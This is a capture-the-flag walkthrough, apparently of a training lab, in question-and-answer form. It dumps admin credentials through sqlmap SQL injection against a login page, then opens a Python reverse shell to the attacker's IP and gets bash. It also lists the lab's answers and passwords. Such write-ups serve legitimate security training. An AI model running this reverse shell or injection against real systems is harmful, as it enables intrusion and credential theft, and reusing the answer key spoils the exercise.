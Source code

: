**Questions**

    1. What is the name of the important file on the server

administrator.php

## Web Exploitation

The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection.

`sqlmap -u http://10.10.63.104/administrator.php --dump --forms | tee sqlmap.log`

```
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

**Questions**

    1. What is the admin username?

pingudad

    2. What is the admin password?

secretpass

    3. How many forms of SQLI is the form vulnerable to?

3

## Command Execution

It seems we have gained the ability to run commands. Let's try a nc reverse shell

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.32.89",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

**Questions**

    1. How many files are in the current directory?

3

    2. So I still have an account?

Yes

    3. What is my ssh password?

pinguapingu
